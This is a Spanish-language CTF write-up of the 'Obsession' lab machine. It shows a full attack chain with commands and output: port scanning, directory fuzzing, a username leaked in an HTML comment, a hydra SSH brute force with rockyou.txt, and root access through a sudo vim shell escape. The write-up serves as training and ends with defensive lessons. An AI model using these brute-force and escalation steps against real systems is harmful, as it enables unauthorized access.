

# Máquina Vulnerable: Obsession

|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | Juan                                            |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 25/06/2024                                      |
| Fecha del writeup | 15/12/2025                                      |
| Maquina original  | Obsession                                       |

Máquina CTF diseñada para practicar técnicas de pentesting básicas en un entorno controlado. Esta réplica implementa vulnerabilidades típicas de configuraciones inseguras que incluyen exposición de información sensible a través de comentarios HTML, contraseñas débiles y permisos sudo mal configurados.

El objetivo es practicar metodologías de pentesting desde el reconocimiento inicial hasta la escalada de privilegios, utilizando herramientas estándar como nmap, gobuster, hydra y técnicas de explotación basadas en GTFOBins.

## Tabla de Contenidos

- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web - Fuzzing de Directorios](#paso-2-enumeración-web---fuzzing-de-directorios)
  - [Paso 3: Análisis del Código Fuente HTML](#paso-3-análisis-del-código-fuente-html)
  - [Paso 4: Ataque de Fuerza Bruta SSH](#paso-4-ataque-de-fuerza-bruta-ssh)
  - [Paso 5: Acceso SSH como Usuario](#paso-5-acceso-ssh-como-usuario)
  - [Paso 6: Enumeración de Privilegios](#paso-6-enumeración-de-privilegios)
  - [Paso 7: Escalada de Privilegios con VIM](#paso-7-escalada-de-privilegios-con-vim)
- [Conclusión](#conclusión)

---

## Explotación

### Vulnerabilidades Implementadas

- **Exposición de Información**: Comentario HTML en código fuente que revela nombre de usuario `russoski`
- **Contraseña Débil**: Password vulnerable a ataques de diccionario (rockyou.txt)
- **Configuración sudo Insegura**: Usuario puede ejecutar `/usr/bin/vim` como root sin contraseña
- **Permisos Elevados Innecesarios**: Usuario regular con capacidad de ejecutar binarios peligrosos

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-15 15:57 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

**Resultado**: Se identifican tres puertos abiertos:
- **Puerto 21 (FTP)**: vsftpd 3.0.5
- **Puerto 22 (SSH)**: OpenSSH 9.6p1 Ubuntu 3ubuntu13
- **Puerto 80 (HTTP)**: Apache httpd 2.4.58

### Paso 2: Enumeración Web - Fuzzing de Directorios

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html | grep "(Status: 200)"
/index.html           (Status: 200) [Size: 5208]
/index.html           (Status: 200) [Size: 5208]
```

**Resultado**: Se encuentra únicamente el archivo index.html

### Paso 3: Análisis del Código Fuente HTML

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://172.17.0.2
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <title>Russoski Coaching</title>
    <link rel="stylesheet" href="style.css">
</head>

<body>
    <section class="full">
        <div class="full-inner">
            <div class="content">
                <h1>The Aesthetic Dream</h1>
                <a href="#formulario">TRANSFORMA TU FÍSICO YA MISMO</a>
            </div>
        </div>
    </section>
    <p>Bienvenido. Soy Informático, pero sobre todo, soy <strong>entrenador personal</strong> con más de 5
        años de experiencia en el entrenamiento con cargas y nutrición, con <strong>certificado de
            profesionalidad</strong> como Monitor de Musculación y Fitness. Para conocerme un poco más, <a href="https://russ0ski.github.io/MyHackingRoad/"
            target="_blank">entra aquí</a>.</p>
    <p>Estoy dispuesto a utilizar todos mis conocimientos con el objetivo de <strong>cambiar tu físico para
            bien</strong>. ¿Estás dispuesto a conseguir tu mejor versión y vivir la vida que siempre quisiste?.
        <strong>Sólo tienes que dar el paso</strong> y dejarme asesorarte en tu camino hacía la
        <strong>estética</strong>.
    </p>
    <p>Aprovecha mi nueva oferta por <strong>Black Friday</strong> y obtén un 45% de descuento durante los próximos 3
        meses en tus planes de nutrición y entrenamiento, sólo disponible por <strong>tiempo limitado</strong>.
        Atrévete, no te arrepentirás <strong>cuando te mires al espejo y sonrías</strong>.</p>
    <section class="full4">
        <div class="full-inner4">
            <div class="content5">
                <ul>
                    <li>
                        Resultados 100% garantizados, si no estás conforme te devolvemos parte del dinero.
                    </li>
                    <li>
                        La primera semana de prueba es gratuita, sólo tienes que rellenar nuestro formulario.
                    </li>
                    <li>
                        Asesoramiento online y también presencial (sólo aplicable si eres mujer).
                    </li>
                    <li>
                        Me adapto a tu nivel físico para brindarte el mejor servicio, sin riesgo de lesiones.
                    </li>
                    <li>
                        Me adapto a tu economía para ofrecer el mejor plan de nutrición que puedas permitirte.
                    </li>
                </ul>
            </div>
        </div>
        <! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
    </section>
    <section class="full3">
        <div class="full-inner3">
            <div class="content3">
                <fieldset>
                    <a id="formulario">
                        <h3>Consigue tu asesoría personalizada:</h3>
                    </a>
                    <form action="http://172.17.0.2/.formrellyrespexit.html" method="get">
                        <label>
                            Nombre:
                            <input name="nombre" type="text" placeholder="Introduce tu nombre" />
                        </label>
                        <br>
                        <br>
                        <label>
                            Apellido:
                            <input name="apellido" type="text" placeholder="Introduce tus apellidos" />
                        </label>
                        <br>
                        <br>
                        <label>
                            Teléfono:
                            <input name="telefono" type="tel" placeholder="Introduce tu número" />
                        </label>
                        <br>
                        <br>
                        <label>
                            Email:
                            <input name="email" type="email" placeholder="Introduce tu correo" />
                        </label>
                        <br>
                        <br>
                        <label for="somatotipo">Somatotipo:</label>
                        <select name="somatotipo">
                            <option>Hectomorfo</option>
                            <option>Mesomorfo</option>
                            <option>Endomorfo</option>
                        </select>
                        <br>
                        <br>
                        <input name="llamada a la accion" type="submit" value="CAMBIAR MI VIDA A MEJOR AHORA" />
                        <input name="campaign" type="hidden" value="BLACKFRIDAY" />
                    </form>
                    <br>
                </fieldset>
            </div>
        </div>
    </section>
    <footer>
        <section class="full2">
            <div class="full-inner2">
                <div class="content4">
                    <br>
                    <h4>Copyright Russoski © 2024</h4>
                    <a href="mailto:russoski@dockerlabs.es" target="_blank">russoski@dockerlabs.es</a>
                    <br>
                    <br>
                    <br>
                </div>
            </div>
        </section>
    </footer>
</body>

</html>
```

**Resultado**: En el código fuente se encuentra un comentario HTML revelador:
```html
<! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
```

Este comentario, junto con las referencias al autor "Russoski" en el sitio web, sugiere que el nombre de usuario es `russoski`.

### Paso 4: Ataque de Fuerza Bruta SSH

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-15 16:04:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-15 16:05:30
```

**Resultado**: Credenciales descubiertas → `russoski:iloveme`

### Paso 5: Acceso SSH como Usuario

```bash
┌──(kali㉿kali)-[~]
└─$ ssh russoski@172.17.0.2
russoski@172.17.0.2's password:
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@5f39174a7b60:~$
```

**Resultado**: Acceso exitoso como usuario `russoski`

### Paso 6: Enumeración de Privilegios

```bash
russoski@5f39174a7b60:~$ sudo -l
Matching Defaults entries for russoski on 5f39174a7b60:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 5f39174a7b60:
    (root) NOPASSWD: /usr/bin/vim
```

**Resultado**: El usuario puede ejecutar `vim` como root sin contraseña

### Paso 7: Escalada de Privilegios con VIM

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) para técnicas de escalada:

```bash
russoski@5f39174a7b60:~$ sudo vim -c ':!/bin/bash'

root@5f39174a7b60:/home/russoski# whoami
root
root@5f39174a7b60:/home/russoski#
```

**Resultado**: Escalada exitosa a root ✓

---

## Conclusión

Esta máquina demuestra vulnerabilidades comunes en entornos mal configurados:
- Exposición de información sensible a través de comentarios HTML
- Contraseñas débiles susceptibles a ataques de diccionario
- Configuraciones sudo inseguras que permiten escalada de privilegios

**Lecciones aprendidas:**
- Nunca incluir información sensible en comentarios HTML o código fuente del cliente
- Usar contraseñas robustas y únicas
- Restringir permisos sudo a comandos específicos y seguros
- Validar configuraciones de seguridad regularmente
- Eliminar comentarios de desarrollo antes de pasar a producción
